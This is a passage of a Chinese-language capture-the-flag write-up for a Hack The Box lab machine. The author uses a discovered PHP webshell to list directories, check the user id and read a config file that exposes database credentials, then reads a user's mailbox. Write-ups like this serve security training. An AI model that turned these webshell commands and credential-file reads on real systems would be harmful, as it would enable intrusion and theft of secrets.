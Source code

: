 Fuzz 了一下，果然是 webshell，密码是 `hidden`，这样就可以执行命令了，探测一下基本情况

```
view-source:http://sec03.rentahacker.htb/shell.php?hidden=ls%20-al%20../../
total 32
drwxr-xr-x  8 root    root      4096 Dec  7  2018 .
drwxr-xr-x 22 root    root      4096 Dec  4  2018 ..
drwx------  4 ib01c01 customers 4096 Feb  1  2019 ib01c01
drwx------  3 ib01c02 customers 4096 Dec 11  2018 ib01c02
drwx------  4 ib01c03 customers 4096 Jan 30  2019 ib01c03
dr-xrwx---  3 ib01ftp support   4096 Dec 10  2018 ib01ftp
drwx------  3 ib01www support   4096 Dec 10  2018 ib01www
drwx------  2 support support   4096 Feb  2  2019 support

view-source:http://sec03.rentahacker.htb/shell.php?hidden=id
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)

view-source:http://sec03.rentahacker.htb/shell.php?hidden=cat%20config/config_inc.php
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'ib01c03';
$g_db_username            = 'ib01c03';
$g_db_password            = 'Thi$sh1tIsN0tGut';
$g_default_timezone       = 'Europe/Berlin';
$g_crypto_master_salt     = 'DCD4OIydnPefp27q8Bu5TJHE2RfyO4Zit13B6zLfJdQ=';
```

这里拿到了一组数据库的用户名和密码：`ib01c03 - Thi$sh1tIsN0tGut`

在测试的过程中，发现机器不能主动连接到我们攻击机的端口上，应该是有 iptables 限制了外连，就只能用这个 webshell 操作了

继续看看有没有什么有用的信息，看到 `/var/mail/ib01c03` 有邮件

```
view-source:http://sec03.rentahacker.htb/shell.php?hidden=cat%20/var/mail/ib01c03

From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
Return-path: <support@ib01.supersechosting.htb>
Envelope-to: ib01c03@ib01.supersechosting.htb
Delivery-date: Mon, 10 Dec 2018 21:10:56 +0100
Received: from support by ib01.supersechosting.htb with local (Exim 4.89)
	(envelope-from <support@ib01.supersechosting.htb>)
	id 1gWRtI-0000ZK-8Q
	for ib01c03@ib01.supersechosting.htb; Mon, 10 Dec 2018 21:10:56 +0100
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
In-Reply-To: Your message of Mon, 10 Dec 2018 21:04:49 +0100
	<E1gWRnN-0000XA-44@ib01.supersechosting.htb>
References: <E1gWRnN-0000XA-44@ib01.supersechosting.htb>
X-Mailer: mail (GNU Mailutils 3.1.1)
Message-Id: <E1gWRtI-0000ZK-8Q@ib01.supersechosting.htb>
From: support <support@ib01.supersechosting.htb>
Date: Mon, 10 Dec 2018 21:10:56 +0100
X-IMAPbase: 1544472964 2
Status: O
X-UID: 1

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
```